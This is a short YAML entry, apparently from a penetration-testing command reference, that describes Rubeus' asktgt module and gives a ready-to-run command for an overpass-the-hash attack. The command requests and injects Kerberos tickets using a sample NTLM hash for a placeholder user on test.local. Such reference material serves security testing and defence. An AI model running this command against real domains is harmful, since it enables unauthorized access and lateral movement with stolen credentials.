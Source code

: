 ```yaml
---
description: |
  Rubeus' `asktgt` module uses a valid user's NTLM hash to request Kerberos tickets, in order to access any service or machine where that user has permissions.

  Command Reference:

  	Domain: test.local

  	Username: john

  	Hash: 2a3de7fe356ee524cc9f3d579f2e0aa7

command: |
  Rubeus.exe asktgt /domain:test.local /user:john /rc4:2a3de7fe356ee524cc9f3d579f2e0aa7 /ptt
items:
  - Hash
  - Username
services:
  - Kerberos
OS:
  - Windows
phases:
  - Exploitation
references:
  - https://github.com/GhostPack/Rubeus
  - https://github.com/GhostPack/Rubeus#asktgt
---
```

